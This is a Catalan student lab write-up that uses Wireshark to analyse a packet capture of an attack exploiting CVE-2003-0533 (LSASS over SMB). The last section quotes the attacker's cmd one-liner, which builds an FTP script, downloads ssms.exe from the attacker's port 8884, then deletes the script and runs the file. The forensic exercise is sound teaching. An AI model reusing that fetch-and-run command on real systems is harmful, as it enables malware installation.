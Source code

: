 PRÀCTICA XARXES I
==================

En aquesta pràctica analitzarem el fitxer 1.pcap que trobaràs al Moodle, es correspon a la captura de paquets durant un atac informàtic en xarxa.

Per aquesta tasca usarem el programari open-source Wireshark que disposa d’eines que ens permetran filtrar el tràfic de la xarxa segons la informació que cerquem en cada moment.

*Nota: Aquesta pràctica no s’ha d’entregar, es revisarà durant les hores de classe.*

---

1. **Quina és l’adreça IP de l’atacant i de l’atacat? I les direccions MAC? A partir de les IPs obtingudes geolocalitza l’atacant i l’atacat.** Pots utilitzar el següent recurs online: https://www.geolocation.com/

Per assegurar-me de qui és realment l'atacant:

Statistics > Flow Graph

![""](images/image09.png "")

**Atacant:**

IP: 98.114.205.102

MAC: 00:08:e2:3b:56:01

Geolocalització:

![""](images/image01.png "")


**Atacat:**

IP: 192.150.11.111

MAC: 00:30:48:62:4e:4a

Geolocalització:

![""](images/image02.png "")

2. **Quines sessions TCP hi ha obertes entre les dos IPs? Indica’n els ports usats i el nombre de paquets enviats.**

Hi ha obertes les següents 5 sessions TCP:

![""](images/image03.png "")

Un total de 348 paquets.

3. **Quant temps dura l’atac?**

L'atac dura 16.219218 segons, com es pot veure a l'últim paquet:

![""](images/image04.png "")

4. **Quin és el sistema operatiu del sistema atacat? Pots consultar la relació entre la versió i el
nom comercial aquí: https://www.gaijin.at/en/infos/windows-version-numbers**

```
smb.native_os && ip.src == 192.150.11.111
```

![""](images/image05.png "")


5. **Aquest atac ha explotat una vulnerabilitat de l’Active Directory. Cerca paquets de
protocol DSSETUP per obtenir-ne informació i aconsegueix el codi CVE de la
vulnerabilitat i les seves característiques.** El CVE és una llista d'informació registrada sobre vulnerabilitats de seguretat conegudes.

**Quin protocol s’usà per explotar la vulnerabilitat esmentada?**

![""](images/image06.png "")

A partir de la informació "DsRoleUpgradeDownlevelServer" s'ha pogut trobar que s'intentava explotar la vulnerabilitat [CVE-2003-0533](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-0533).

```
Stack-based buffer overflow in certain Active Directory service functions in LSASRV.DLL of the Local Security Authority Subsystem Service (LSASS) in Microsoft Windows NT 4.0 SP6a, 2000 SP2 through SP4, XP SP1, Server 2003, NetMeeting, Windows 98, and Windows ME, allows remote attackers to execute arbitrary code via a packet that causes the DsRolerUpgradeDownlevelServer function to create long debug entries for the DCPROMO.LOG log file, as exploited by the Sasser worm.
```

S'usa el protocol SMB (Server Message Block).

**6. Quin port escoltava el servidor de l’atacant? Quin protocol s’usa en l’atac per descarregar un fitxer maliciós addicional al sistema atacat? Quin és aquest fitxer? En reconeixes el nom?** Analitza els fluxos TCP.

Fluxos TCP:

Statics > IPv4 Statics > Destinations and Ports

![""](images/image07.png "")


Pel paquet nº 46 podem veure el fitxer maliciós *ssms.exe* (SQL Server Management Studio).

L'atacant fa servir el protocol FTP per descarregar aquest fitxer.

El servidor de l'atacant està escoltant pel port 8884.

```
echo open 0.0.0.0 8884 > o&echo user 1 1 >> o &echo get ssms.exe >> o &echo quit >> o &ftp -n -s:o &del /F /Q o &ssms.exe
ssms.exe
```

![""](images/image08.png "")